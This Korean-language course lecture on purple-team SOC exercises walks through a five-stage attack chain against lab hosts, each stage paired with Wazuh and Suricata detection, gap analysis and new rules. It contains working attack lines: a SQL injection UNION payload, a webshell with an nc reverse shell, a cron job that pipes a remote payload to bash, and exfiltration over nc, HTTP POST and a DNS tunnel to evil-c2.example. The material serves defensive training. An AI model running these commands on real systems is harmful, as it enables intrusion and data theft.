| `packages/bastion/skills.py` | 스킬 정의 |
| `packages/bastion/playbooks/` | 정적 플레이북 YAML |
| `data/bastion/experience/` | 수집된 경험 (pass/fail) |

**핵심 설정·키**

- `LLM_BASE_URL / LLM_MODEL` — Ollama 연결
- `CCC_API_KEY` — ccc-api 인증
- `max_retry=2` — 실패 시 self-correction 재시도

**로그·확인 명령**

- ``docs/test-status.md`` — 현재 테스트 진척 요약
- ``bastion_test_progress.json`` — 스텝별 pass/fail 원시

**UI / CLI 요점**

- 대화형 TUI 프롬프트 — 자연어 지시 → 계획 → 실행 → 검증
- `/a2a/mission` (API) — 자율 미션 실행
- Experience→Playbook 승격 — 반복 성공 패턴 저장

> **해석 팁.** 실패 시 output을 분석해 **근본 원인 교정**이 설계의 핵심. 증상 회피/땜빵은 금지.

---

## 실제 사례 (WitFoo Precinct 6 — MDR 운영)

> 출처: WitFoo Precinct 6 Cybersecurity Dataset (Apache 2.0)
> 본 lecture *MDR 운영* 학습 항목 매칭.

### MDR 운영 의 dataset 흔적 — "managed detection"

dataset 의 정상 운영에서 *managed detection* 신호의 baseline 을 알아두면, *MDR 운영* 시도 시 발생하는 anomaly 를 정량으로 탐지할 수 있다. 핵심 정량 지표는 — 24/7 SOC 운영 모델.



### Case 1: dataset 정량 지표

| 항목 | 값 |
|---|---|
| 핵심 신호 | managed detection |
| 정량 baseline | 24/7 SOC 운영 모델 |
| 학습 매핑 | MDR 서비스 KPI |

**자세한 해석**: MDR 서비스 KPI. 이 차이를 정량으로 측정해야 *공격 시도와 정상 운영의 구분* 이 가능. 학생이 baseline 숫자를 외워두면 — 운영 환경에서 anomaly 를 즉시 탐지할 수 있다.

### Case 2: 실전 적용 시나리오

| 단계 | dataset 활용 |
|---|---|
| 시도 식별 | managed detection 의 spike |
| 정상 vs 이상 | baseline 대비 비율 |
| 룰 작성 | Suricata / Wazuh / Sigma |
| 검증 | dataset 재실행 |

**자세한 해석**: 운영 환경 룰 작성은 — *baseline 측정 → 임계 결정 → 룰 작성 → dataset 검증* 의 4 단계. 한 단계라도 빠지면 false positive 폭증.

### 이 사례에서 학생이 배워야 할 3가지

1. **MDR 운영 = managed detection 의 anomaly** — 정량 신호로 탐지.
2. **baseline 숫자 외우기** — 24/7 SOC 운영 모델.
3. **4 단계 룰 작성** — 측정 → 임계 → 룰 → 검증.

**학생 액션**: SOC 운영 SLA 작성.


---

## 부록: 학습 OSS 도구 매트릭스 (Course14 SOC Advanced — Week 13 레드팀 연동·Purple Team·Atomic Red Team·ATT&CK Coverage)

> 이 부록은 lab `soc-adv-ai/week13.yaml` (15 step + multi_task) 의 모든 명령을
> 실제로 실행 가능한 형태로 정리한다. Purple Team 방법론, ATT&CK 5 단계 공격 시나리오,
> Atomic Red Team / CALDERA 자동화, 탐지 매트릭스, 갭 분석, 즉시 개선까지.

### lab step → 도구·Purple Team 매핑 표

| step | 학습 항목 | 핵심 OSS 도구 | ATT&CK |
|------|----------|--------------|--------|
| s1 | Purple Team 개념 + Red/Blue 차이 | RACI + 운영 모델 표 | - |
| s2 | ATT&CK 5+ Tactic 시나리오 | Navigator + Diamond Model | All |
| s3 | Stage 1 Initial Access (SQLi) | sqlmap + curl + Burp | T1190 |
| s4 | Stage 2 Execution (webshell + cmd) | weevely + bash + Wazuh detect | T1059.004 / T1505.003 |
| s5 | Stage 3 Persistence (cron / SSH key) | crontab + ssh-copy-id | T1053.003 / T1098.004 |
| s6 | Stage 4 Lateral (SSH key reuse) | ssh + impacket | T1021.004 |
| s7 | Stage 5 Exfiltration (DNS/HTTP/encrypted) | dnscat2 + curl + age + Wazuh | T1041 / T1048 |
| s8 | 탐지 결과 종합 매트릭스 | spreadsheet + Wazuh API | - |
| s9 | 탐지 갭 분석 | DeTT&CT (week06·12) + 매핑 | - |
| s10 | 즉시 개선 (신규 룰 + 재실행) | Wazuh + Sigma + 재시뮬 | - |
| s11 | Atomic Red Team 자동화 | redcanaryco/atomic-red-team + invoke | - |
| s12 | ATT&CK Navigator layer | sigma2attack + dettect + Navigator | - |
| s13 | Purple Team 프로그램 (분기) | scenario rotation + RACI | - |
| s14 | KPI (커버리지/MTTD/신규 룰) | spreadsheet + Grafana | - |
| s15 | Purple Team 종합 보고서 | markdown + Coverage 변화 | - |
| s99 | 통합 다단계 (s1→s2→s3→s4→s5) | Bastion plan: 개념→시나리오→Initial→Execution→Persistence | 다중 |

### 학생 환경 준비

```bash
git clone https://github.com/redcanaryco/atomic-red-team /tmp/atomic
sudo apt install -y powershell
git clone https://github.com/redcanaryco/invoke-atomicredteam /tmp/iar

# CALDERA (옵션)
git clone https://github.com/mitre/caldera --recursive /tmp/caldera

# 공격 도구 (course13 재사용)
sudo apt install -y sqlmap nmap weevely curl

# Wazuh + Suricata + Navigator (이미 설치)
git clone https://github.com/mitre-attack/attack-navigator /tmp/nav 2>/dev/null

# DeTT&CT (week06·12)
git clone https://github.com/rabobank-cdc/DeTTECT /tmp/dettect 2>/dev/null

# Sigma + sigma2attack (week03·06)
pip install --user sigma-cli pysigma pysigma-backend-wazuh sigma2attack
```

### 핵심 도구별 상세 사용법

#### 도구 1: Purple Team 방법론 (Step 1)

| 비교 | Red | Blue | Purple |
|------|-----|------|--------|
| 목적 | 침투 검증 | 탐지/대응 | 격차 메우기 |
| 참여자 | Red analyst | SOC analyst | Red + Blue + 진행자 |
| 빈도 | 분기-연 1회 | 상시 | 분기 1회 |
| 결과 | 침투 보고서 | 사고 통계 | 격차 매트릭스 + 신규 룰 |
| 소통 | 사일로 | 사일로 | 실시간 양방향 |

**운영 모델**:
- **Open Book**: Red 공격 → Blue 즉시 탐지 → 격차 발견 즉시 룰 작성
- **Closed Book**: Red 단독 → 종료 후 Blue 와 결과 비교

#### 도구 2: ATT&CK 시나리오 설계 (Step 2)

```
=== Purple Team Scenario — "JuiceShop Compromise Chain" ===

| Stage | Tactic | Technique | 도구 | 예상 탐지 |
|-------|--------|-----------|------|----------|
| 1 | Initial Access | T1190 | sqlmap | Wazuh 100200 |
| 2 | Execution | T1059.004 | bash via webshell | Wazuh 5402 + Suricata |
| 2 | Execution | T1505.003 | weevely upload | Wazuh 100450 |
| 3 | Persistence | T1053.003 | crontab + script | Wazuh 5106 |
| 3 | Persistence | T1098.004 | ssh-copy-id | Wazuh 5715 + auditd |
| 4 | Lateral | T1021.004 | ssh + impacket | Wazuh 5715 + auth.log |
| 5 | Exfiltration | T1041 | tar + nc | Suricata + Zeek |
| 5 | Exfiltration | T1048.003 | curl POST | Wazuh + Apache |

## Diamond Model
- Adversary: Purple Team Red
- Capability: sqlmap, weevely, ssh, dnscat2
- Infrastructure: 192.168.1.50, evil-c2.example
- Victim: web (10.20.30.80), siem (10.20.30.100)

## 평가 기준
- 탐지 성공: Wazuh / Suricata 알림 + level 적절
- 시간: 발생 ~ 알림 < 60s
- TP: 알림이 실제 매칭
- FP: 정상 잘못 매칭
```

#### 도구 3: Stage 1 — Initial Access (Step 3)

```bash
ATTACKER=10.20.30.112
WEB=10.20.30.80

# Red
ssh ccc@$ATTACKER 'curl -s "http://10.20.30.80/rest/products/search?q=apple" | head'
ssh ccc@$ATTACKER 'sqlmap -u "http://10.20.30.80/rest/products/search?q=*" --batch --random-agent --threads=4'
ssh ccc@$ATTACKER 'curl -s "http://10.20.30.80/rest/products/search?q=\\\")) UNION SELECT id,email,password,\\'4\\',\\'5\\',\\'6\\',\\'7\\',\\'8\\',\\'9\\' FROM Users--"'

# Blue 실시간 모니터링
ssh ccc@10.20.30.100 'sudo tail -f /var/ossec/logs/alerts/alerts.json | jq -r "select(.rule.id==\"100200\" or .rule.id==\"100250\") | {ts:.timestamp,src:.data.srcip,desc:.rule.description}"'
ssh ccc@10.20.30.1 'sudo tail -f /var/log/suricata/eve.json | jq -r "select(.event_type==\"alert\" and .alert.signature_id >= 2003001) | {ts:.timestamp,src:.src_ip,sig:.alert.signature}"'
```

| 시도 | Wazuh | Suricata | 비고 |
|------|-------|----------|------|
| 정상 GET | - | - | baseline |
| sqlmap | 100200 (lvl 6) | 2024793 | ✓ |
| 수동 UNION | 100200 + 100250 (lvl 14) | 2024793 | ✓ |
| Time-based blind | 미탐지 ★ | 2024798 | ✗ Wazuh 갭 |

#### 도구 4: Stage 2 — Execution (Step 4)

```bash
# Red
ssh ccc@$ATTACKER 'weevely generate s3cret /tmp/shell.php'
ssh ccc@$ATTACKER 'curl -X POST "http://10.20.30.80/api/Files" -H "Authorization: Bearer $TOKEN" -F "file=@/tmp/shell.php"'
ssh ccc@$ATTACKER 'weevely http://10.20.30.80/uploads/shell.php s3cret'
# > id; whoami; cat /etc/passwd; nc -e /bin/sh 192.168.1.50 4444

# Blue
ssh ccc@10.20.30.100 'sudo grep "100450" /var/ossec/logs/alerts/alerts.log | tail'
ssh ccc@10.20.30.1 'sudo grep -i "shell.php" /var/log/suricata/eve.json | head'
ssh ccc@10.20.30.80 'sudo grep "shell.php" /var/log/apache2/access.log | tail'
```

| 시도 | Wazuh | Suricata | Apache | 비고 |
|------|-------|----------|--------|------|
| webshell upload | 100450 (lvl 12) | - | ✓ | ✓ syscheck |
| webshell access | - | 2018987 | ✓ | ⚠ Wazuh 미탐지 (Apache log 룰 부재) |
| reverse shell | 5402 (sudo) | 2008470 | - | ✓ |

#### 도구 5: Stage 3 — Persistence (Step 5)

```bash
# Red
ssh ccc@web 'echo "*/5 * * * * curl -s http://192.168.1.50/payload.sh | bash" | sudo tee /etc/cron.d/backup'
ssh ccc@web 'mkdir -p /home/ccc/.ssh && echo "ssh-rsa AAAA... attacker@kali" >> /home/ccc/.ssh/authorized_keys'

# Blue
ssh ccc@10.20.30.100 'sudo grep "5106" /var/ossec/logs/alerts/alerts.log | tail'
ssh ccc@web 'sudo ausearch -k cron_change --start recent | head'
ssh ccc@web 'sudo ausearch -k home_change --start recent | head'
```

| 시도 | Wazuh | auditd | 비고 |
|------|-------|--------|------|
| cron 추가 | 5106 (lvl 8) | cron_change | ✓ |
| authorized_keys | - | home_change | ⚠ Wazuh 미탐지 (syscheck 미설정) |
| systemd unit | - | - | ✗ 양측 미탐지 |

#### 도구 6: Stage 4 — Lateral Movement (Step 6)

```bash
# Red
ssh ccc@web 'ssh -i /home/ccc/.ssh/id_rsa ccc@10.20.30.100 "id; ls /var/ossec/etc/"'
ssh ccc@web 'sshpass -p ccc123 ssh ccc@10.20.30.100 id'

# Blue
ssh ccc@10.20.30.100 'sudo grep "5715" /var/ossec/logs/alerts/alerts.log | grep "10.20.30.80" | tail'
```

| 시도 | Wazuh | 비고 |
|------|-------|------|
| SSH key (web → siem) | 5715 ★ | ✗ 정상 SSH 와 구분 안 됨 |
| sshpass brute | 5712 ★★★ | ✓ |

#### 도구 7: Stage 5 — Exfiltration (Step 7)

```bash
# 1. tar + nc
ssh ccc@10.20.30.100 'tar -czf - /var/ossec/data 2>/dev/null | nc 192.168.1.50 4444'

# 2. HTTP POST
ssh ccc@10.20.30.100 'tar -czf - /var/ossec/data | curl -X POST -H "Content-Type: application/octet-stream" --data-binary @- http://192.168.1.50/upload'

# 3. DNS 터널 (week06)
ssh ccc@10.20.30.100 '
  while read line; do
    encoded=$(echo "$line" | base64)
    dig +short ${encoded:0:30}.tunnel.evil-c2.example >/dev/null
  done < /var/ossec/logs/alerts/alerts.log
'

# 4. 암호화 + age + nc
ssh ccc@10.20.30.100 'tar -czf - /var/ossec/data | age -r age1abc... | nc 192.168.1.50 4444'

# Blue
ssh ccc@10.20.30.1 'sudo zeek-cut id.orig_h id.resp_h orig_bytes resp_bytes < /var/log/zeek/conn.log | awk "$3 > 10485760"'
ssh ccc@10.20.30.1 'sudo zeek-cut query < /var/log/zeek/dns.log | awk "{ if (length($1) > 50) print }"'
```

| 시도 | Suricata | Wazuh | Zeek | 비고 |
|------|----------|-------|------|------|
| tar+nc | 9000001 | 100600 (combo) | conn.log 대용량 | ✓ |
| HTTP POST | - | - | http.log | ⚠ 응답 size 룰 부재 |
| DNS 터널 | - | - | dns.log entropy | ✗ Wazuh 미탐지 |
| age + nc | - | - | conn.log encrypted | ⚠ TLS 변조 가능 |

#### 도구 8: 종합 매트릭스 (Step 8)

```
| Stage | Technique | Wazuh | Suricata | Zeek | auditd | Apache | TheHive |
|-------|-----------|-------|----------|------|--------|--------|---------|
| 1 | T1190 | ✓ | ✓ | - | - | ✓ | ✓ |
| 2 | T1059.004 | ✓ | ✓ | - | - | - | ✓ |
| 2 | T1505.003 | ✓ | - | - | - | ✓ | ✓ |
| 3 | T1053.003 | ✓ | - | - | ✓ | - | ✓ |
| 3 | T1098.004 | ✗ | - | - | ✓ | - | - |
| 4 | T1021.004 | ⚠ | - | - | - | - | - |
| 5 | T1041 | ✓ | ✓ | ✓ | - | - | - |
| 5 | T1048 | ✗ | - | - | - | - | - |

## 통계
- ✓ Detect: 5 (56%) / ⚠ Partial: 2 / ✗ Miss: 4 (중복)
- 평균 MTTD: 7s
- Tool 효과: Wazuh 5/9, Suricata 4/9, Zeek 1/9, auditd 2/9
```

#### 도구 9: 갭 분석 (Step 9)

```bash
cd /tmp/dettect
cat > /tmp/visibility-current.yaml << 'YML'
version: 1.4
file_type: visibility
domain: enterprise-attack
name: SOC Visibility 2026-Q2
techniques:
  - technique_id: T1190
    visibility: {score: 4, comment: "Wazuh 100200 + Suricata 2024793"}
  - technique_id: T1059.004
    visibility: {score: 3, comment: "Wazuh 5402 (sudo) only"}
  - technique_id: T1098.004
    visibility: {score: 1, comment: "auditd watch만"}
  - technique_id: T1021.004
    visibility: {score: 2, comment: "정상 SSH 구분 어려움"}
  - technique_id: T1041
    visibility: {score: 4, comment: "Suricata + Zeek"}
  - technique_id: T1048.003
    visibility: {score: 1, comment: "HTTP POST size 룰 부재"}
YML

python dettect.py v -ft /tmp/visibility-current.yaml -l
```

| Technique | 점수 | 갭 원인 | 개선 |
|-----------|------|---------|------|
| T1098.004 | 1 | Wazuh syscheck 미설정 | /home/*/.ssh/authorized_keys watch |
| T1021.004 | 2 | 정상 SSH 구분 어려움 | internal-to-internal 패턴 룰 |
| T1048.003 | 1 | response size 룰 부재 | response_size > 100MB Wazuh rule |
| T1071.004 | 0 | 미수집 + 룰 부재 | DNS log + entropy 룰 (week06) |
| T1027 | 0 | strings 분석 부재 | YARA Wazuh 통합 (week04) |

Root Cause: 데이터 소스 부재 (40%) / 룰 부재 (40%) / 룰 우회 (20%)

#### 도구 10: 즉시 개선 + 재시뮬 (Step 10)

```bash
# 신규 룰
ssh ccc@web 'sudo tee -a /var/ossec/etc/ossec.conf' << 'XML'
<syscheck>
  <directories check_all="yes" report_changes="yes" realtime="yes">/home/ccc/.ssh,/root/.ssh</directories>
</syscheck>
XML

ssh ccc@10.20.30.100 'sudo tee -a /var/ossec/etc/rules/local_rules.xml' << 'XML'
<group name="custom,persistence,">
  <rule id="100850" level="13">
    <if_sid>550,553</if_sid>
    <field name="file">authorized_keys</field>
    <description>SSH authorized_keys 변경 — Persistence (T1098.004)</description>
    <mitre><id>T1098.004</id></mitre>
  </rule>
</group>

<group name="custom,lateral,">
  <rule id="100851" level="11">
    <if_sid>5715</if_sid>
    <srcip>10.20.30.0/24</srcip>
    <description>Internal-to-internal SSH — lateral 의심</description>
    <mitre><id>T1021.004</id></mitre>
  </rule>

  <rule id="100852" level="13">
    <if_sid>100851</if_sid>
    <user>!^admin$</user>
    <weekday>weekdays</weekday>
    <time>22:00-06:00</time>
    <description>Off-hours internal SSH by non-admin — high risk</description>
  </rule>
</group>

<group name="custom,exfil,">
  <rule id="100853" level="13">
    <if_sid>31100</if_sid>
    <regex>response_size > 104857600</regex>
    <description>HTTP large response — exfil (T1048.003)</description>
    <mitre><id>T1048.003</id></mitre>
  </rule>
</group>
XML

ssh ccc@10.20.30.100 'sudo /var/ossec/bin/wazuh-control restart'

# 재시뮬
ssh ccc@web 'echo "ssh-rsa AAAA... new" >> /home/ccc/.ssh/authorized_keys'
sleep 30
ssh ccc@10.20.30.100 'sudo grep "100850" /var/ossec/logs/alerts/alerts.log | tail'
```

| Technique | Before | After | Δ |
|-----------|--------|-------|---|
| T1098.004 | 1 | 4 | +3 |
| T1021.004 | 2 | 3 | +1 |
| T1048.003 | 1 | 4 | +3 |
| 평균 | 1.3 | 3.7 | **+2.4** |

#### 도구 11: Atomic Red Team 자동화 (Step 11)

```bash
ls /tmp/atomic/atomics/T1190/
cat /tmp/atomic/atomics/T1190/T1190.md | head -30

# Invoke (PowerShell)
pwsh -c "Import-Module /tmp/iar/Invoke-AtomicRedTeam.psd1; Invoke-AtomicTest T1190 -ShowDetailsBrief"
pwsh -c "Import-Module /tmp/iar/Invoke-AtomicRedTeam.psd1; Invoke-AtomicTest T1190 -CheckPrereqs"
pwsh -c "Import-Module /tmp/iar/Invoke-AtomicRedTeam.psd1; Invoke-AtomicTest T1190-1"
pwsh -c "Import-Module /tmp/iar/Invoke-AtomicRedTeam.psd1; Invoke-AtomicTest T1190 -Cleanup"

# Bash 자동화
cat > /tmp/run-atomic-purple.sh << 'SH'
#!/bin/bash
TECHNIQUES=("T1190" "T1059.004" "T1053.003" "T1021.004" "T1041")

for t in "${TECHNIQUES[@]}"; do
    echo "=== Executing $t ==="
    BEFORE=$(curl -sk -u admin:admin "https://siem:9200/wazuh-alerts-*/_count?q=rule.mitre.id:$t" | jq .count)
    
    pwsh -c "Import-Module /tmp/iar/Invoke-AtomicRedTeam.psd1; Invoke-AtomicTest $t" 2>&1 | tail -5
    
    sleep 30
    AFTER=$(curl -sk -u admin:admin "https://siem:9200/wazuh-alerts-*/_count?q=rule.mitre.id:$t" | jq .count)
    
    DELTA=$((AFTER - BEFORE))
    [ $DELTA -gt 0 ] && echo "  ✓ Detected (alerts +$DELTA)" || echo "  ✗ MISS"
    
    pwsh -c "Import-Module /tmp/iar/Invoke-AtomicRedTeam.psd1; Invoke-AtomicTest $t -Cleanup" 2>/dev/null
    sleep 5
done
SH
sudo /tmp/run-atomic-purple.sh
```

#### 도구 12: ATT&CK Navigator (Step 12)

```bash
# Sigma → Coverage layer
sigma2attack --rules-directory ~/sigma-rules/ --out-file /tmp/sigma-coverage.json

# DeTT&CT → Visibility / Detection layer
python /tmp/dettect/dettect.py d -fd /tmp/data-sources-current.yaml -l
python /tmp/dettect/dettect.py v -ft /tmp/visibility-current.yaml -l

# Purple Team 결과 layer (수기)
cat > /tmp/purple-result-layer.json << 'JSON'
{
  "name": "Purple Team Result 2026-Q2",
  "versions": {"attack": "14", "navigator": "4.9.4", "layer": "4.5"},
  "domain": "enterprise-attack",
  "techniques": [
    {"techniqueID": "T1190", "score": 100, "color": "#00ff00", "comment": "Wazuh + Suricata"},
    {"techniqueID": "T1059.004", "score": 80, "color": "#aaff00", "comment": "Wazuh sudo only"},
    {"techniqueID": "T1505.003", "score": 90, "color": "#00ff00", "comment": "Wazuh syscheck"},
    {"techniqueID": "T1053.003", "score": 95, "color": "#00ff00", "comment": "Wazuh + auditd"},
    {"techniqueID": "T1098.004", "score": 30, "color": "#ffaa00", "comment": "auditd만, 룰 추가"},
    {"techniqueID": "T1021.004", "score": 50, "color": "#ffff00", "comment": "정상 SSH 구분 약함"},
    {"techniqueID": "T1041", "score": 95, "color": "#00ff00", "comment": "combo + Zeek"},
    {"techniqueID": "T1048.003", "score": 40, "color": "#ffaa00", "comment": "신규 100853"}
  ],
  "gradient": {"colors": ["#ff0000","#ffff00","#00ff00"], "minValue": 0, "maxValue": 100},
  "metadata": [
    {"name": "engagement", "value": "Purple Team Q2 2026"},
    {"name": "miss_before", "value": "4"},
    {"name": "miss_after", "value": "0"}
  ]
}
JSON
# Navigator 에 import → Compare layers (Before vs After)
```

#### 도구 13: Purple Team 프로그램 (Step 13)

```
| 분기 | 시점 | 시나리오 | 우선순위 |
|------|------|---------|---------|
| Q1 (Mar) | 마지막 주 | Web → Lateral → Exfil | High |
| Q2 (Jun) | 마지막 주 | 랜섬웨어 시뮬 | Critical |
| Q3 (Sep) | 마지막 주 | Cloud / Container | High |
| Q4 (Dec) | 마지막 주 | APT 종합 (full chain) | Critical |

## RACI
| 항목 | Red Lead | Blue Lead | SOC Manager | CISO |
|------|---------|-----------|-------------|------|
| 시나리오 작성 | A | C | R | I |
| 일정 조율 | C | C | A | I |
| 실행 | R | R | A | I |
| 결과 분석 | C | A/R | R | I |
| 개선 | C | A/R | R | C |
| 보고 | C | C | R | A |

## 운영
- Pre-engagement (1주 전): scenario lock + 환경
- Day 0: 시뮬 + 매트릭스
- Day +1 (1주): 갭 분석 + 신규 룰
- Day +2 (2주): 재시뮬 + 효과
- Day +3 (3주): AAR
- 분기 후: 다음 plan
```

#### 도구 14: KPI 측정 (Step 14)

| KPI | 정의 | 측정 |
|-----|------|------|
| Coverage 증가 | visibility 점수 평균 | DeTT&CT layer |
| MTTD 단축 | 시뮬 → 알림 | Wazuh @timestamp - decoder.timestamp |
| 신규 탐지 룰 | 분기당 SIGMA / Wazuh rule | git log |
| Improved 데이터 소스 | 신규 추가 | DeTT&CT data source |
| FP rate | 신규 룰 FP | 7일 운영 후 review |
| 분석가 confidence | survey (1-5) | 분기 survey |
| 시나리오 완료율 | 계획 / 실제 | 분기 보고 |

```python
import json
before = json.load(open('/tmp/coverage-before.json'))
after = json.load(open('/tmp/coverage-after.json'))

before_avg = sum(t['score'] for t in before['techniques']) / len(before['techniques'])
after_avg = sum(t['score'] for t in after['techniques']) / len(after['techniques'])
print(f"Coverage Average: {before_avg:.1f} → {after_avg:.1f} (+{after_avg-before_avg:.1f})")

before_map = {t['techniqueID']: t['score'] for t in before['techniques']}
after_map = {t['techniqueID']: t['score'] for t in after['techniques']}
for t_id in sorted(set(before_map) | set(after_map)):
    b = before_map.get(t_id, 0); a = after_map.get(t_id, 0)
    if a - b != 0: print(f"  {t_id}: {b} → {a} (Δ{a-b:+d})")
```

#### 도구 15: 종합 보고서 (Step 15)

```bash
cat > /tmp/purple-team-report.md << 'EOF'
# Purple Team Report — 2026-Q2

## 1. Executive Summary
- 시나리오: JuiceShop Compromise Chain (5 stage)
- 시뮬 일자: 2026-06-25
- 참가자: Red 2 + Blue 4 + Manager 1
- 결과: 8 technique → 5 ✓ / 2 ⚠ / 4 ✗ → 개선 후 8 ✓

## 2. 결과 매트릭스 (Before)
[위 도구 8 참조]

## 3. 갭 분석
[위 도구 9 참조]

## 4. 개선 (즉시)
- Wazuh rule: 100850 (authorized_keys), 100851~852 (lateral), 100853 (HTTP exfil)
- syscheck: /home/*/.ssh, /root/.ssh

## 5. After
- ✓ Detect: 5 → 8 (89%)
- 평균 visibility: 1.3 → 3.7 (+2.4)
- MTTD: 7s → 5s

## 6. KPI
- Coverage 증가: 9% (목표 5%)
- 신규 룰: 7
- FP rate: 2%

## 7. Lessons
### 잘된 점
- Open Book 효과 (실시간 룰 작성)
- 양측 다층 탐지

### 개선점
- DNS / HTTP exfil 미커버
- SSH lateral 분리 어려움

## 8. Action Items
| 항목 | 담당 | 마감 |
|------|------|------|
| Wazuh DNS log | Engineer | 2주 |
| HTTP response size 룰 | SOC | 1주 |
| Atomic Red Team CI | Engineer | 1개월 |
| 다음 분기 (랜섬웨어) | All | 분기 |

## 9. 향후
- Q3: 랜섬웨어 (week09 + week10 playbook)
- Q4: Cloud (course13 도구)
- 2027 Q1: AI 공격 (course15)
EOF

pandoc /tmp/purple-team-report.md -o /tmp/purple-team-report.pdf \
  --pdf-engine=xelatex --toc -V mainfont="Noto Sans CJK KR"
```

### 점검 / 시뮬 / 개선 흐름 (15 step + multi_task)

#### Phase A — 설계 + 5 단계 시뮬 (s1·s2·s3~s7)

```bash
vi /tmp/purple-scenario.md   # 시나리오

# Stage 1-5 (도구 3-7)
ssh ccc@$ATTACKER 'sqlmap -u "..." --batch'
ssh ccc@$ATTACKER 'curl -X POST "http://10.20.30.80/api/Files" ...'
ssh ccc@web 'echo "..." | sudo tee /etc/cron.d/backup'
ssh ccc@web 'ssh -i id_rsa ccc@10.20.30.100 id'
ssh ccc@10.20.30.100 'tar -czf - /var/ossec/data | nc 192.168.1.50 4444'

# 실시간 모니터링
ssh ccc@10.20.30.100 'sudo tail -f /var/ossec/logs/alerts/alerts.json | jq -r "select(.rule.mitre.id != null)"'
```

#### Phase B — 매트릭스 + 갭 (s8·s9)

```bash
vi /tmp/purple-team-matrix.md
python /tmp/dettect/dettect.py v -ft /tmp/visibility-current.yaml -l
```

#### Phase C — 개선 + 재시뮬 + 보고 (s10·s11·s12·s13·s14·s15)

```bash
ssh ccc@10.20.30.100 'sudo vi /var/ossec/etc/rules/local_rules.xml'
ssh ccc@10.20.30.100 'sudo /var/ossec/bin/wazuh-control restart'

sudo /tmp/run-atomic-purple.sh

python3 /tmp/coverage-diff.py
pandoc /tmp/purple-team-report.md -o /tmp/purple-team-report.pdf
```

#### Phase D — 통합 시나리오 (s99 multi_task)

s1 → s2 → s3 → s4 → s5 를 Bastion 가 한 번에:

1. **plan**: Purple Team 개념 → ATT&CK 5 stage → Initial → Execution → Persistence
2. **execute**: sqlmap + weevely + bash + ssh + Wazuh detect
3. **synthesize**: 5 산출물 (concept.md / scenario.md / stage1.md / stage2.md / stage3.md)

### 도구 비교표 — Purple Team 단계별

| 단계 | 1순위 | 2순위 | 사용 |
|------|-------|-------|------|
| 시나리오 | ATT&CK Navigator + Diamond | TIBER-EU template | 표준 |
| 자동 시뮬 | Atomic Red Team + invoke | CALDERA / Stratus | OSS |
| 매트릭스 | Google Docs / Notion 실시간 | Confluence | 협업 |
| Visibility | DeTT&CT | manual | 정량 |
| 시각화 | ATT&CK Navigator | DeTT&CT layer | 표준 |
| 신규 룰 | Sigma + Wazuh | Splunk SPL | OSS |
| KPI | spreadsheet + Grafana | dedicated tool | 단순 |
| 보고 | pandoc + LaTeX | Word | 기술 |
| 협업 | Slack #purple-team | MS Teams | OSS |
| 케이스 | TheHive | DFIR-IRIS | week10 |
| 일정 | RACI + mermaid Gantt | MS Project | OSS |
| Lessons | AAR (week11) | dedicated tool | 단순 |

### 도구 선택 매트릭스 — 시나리오별 권장

| 시나리오 | 우선 도구 | 이유 |
|---------|---------|------|
| "처음 Purple Team" | Open Book + Atomic + Navigator | 학습 |
| "regulator audit" | DeTT&CT + Coverage layer + 정량 | 정형 |
| "신속 시뮬" | Atomic Red Team CI 자동 | 반복 |
| "복잡 시나리오" | CALDERA + manual scenario | depth |
| "분기 운영" | RACI + Gantt + AAR | 정형 |
| "Cloud 시뮬" | Stratus Red Team (course13) | cloud |
| "AI 시뮬" | (course15 도구) | 미래 |

### 학생 셀프 체크리스트 (각 step 완료 기준)

- [ ] s1: Red/Blue/Purple 비교 + Open vs Closed Book
- [ ] s2: ATT&CK 5+ Tactic 시나리오 + Diamond
- [ ] s3: SQLi 3 단계 + Wazuh + Suricata 매트릭스
- [ ] s4: webshell + 실행 + reverse shell + 매트릭스
- [ ] s5: cron + authorized_keys + 매트릭스
- [ ] s6: SSH key reuse + brute + lateral 매트릭스
- [ ] s7: 4 종 exfil + 매트릭스
- [ ] s8: 9 technique × 6 도구 종합 + 통계
- [ ] s9: DeTT&CT visibility + 갭 root cause 3 카테고리
- [ ] s10: 신규 Wazuh rule 3 + 재시뮬
- [ ] s11: Atomic Red Team CheckPrereqs + Invoke + Cleanup + bash 자동화
- [ ] s12: Sigma2attack + DeTT&CT + Purple result 3 layer
- [ ] s13: 분기 시나리오 + RACI + 운영 모델
- [ ] s14: 7+ KPI + Coverage diff + MTTD
- [ ] s15: 종합 보고서 (Executive/시나리오/Before/갭/개선/After/KPI/Lessons)
- [ ] s99: Bastion 가 5 작업 (개념/시나리오/Initial/Execution/Persistence) 순차

### 추가 참조 자료

- **Atomic Red Team** https://github.com/redcanaryco/atomic-red-team
- **Invoke-AtomicRedTeam** https://github.com/redcanaryco/invoke-atomicredteam
- **CALDERA** https://github.com/mitre/caldera
- **DeTT&CT** https://github.com/rabobank-cdc/DeTTECT
- **MITRE ATT&CK Navigator** https://mitre-attack.github.io/attack-navigator/
- **Sigma2Attack** https://github.com/marbl3z/sigma2attack
- **Purple Team Field Manual** Andrew Pease
- **MITRE Center for Threat-Informed Defense — Adversary Emulation Library** https://github.com/center-for-threat-informed-defense/adversary_emulation_library
- **TIBER-EU** Threat Intelligence-Based Ethical Red Teaming
- **Stratus Red Team** (Cloud, course13)

위 모든 Purple Team 작업은 **격리 lab + 사전 동의 + RoE** 로 수행한다. Atomic Red Team 의
일부 atomic 은 실 시스템 변경 (cron, registry) — 격리 VM 에서만, 항상 cleanup. **Open Book
모델 권장** (실시간 협업 + 즉시 룰 작성). 분기별 Coverage 증가 +5% 이상이 정상.
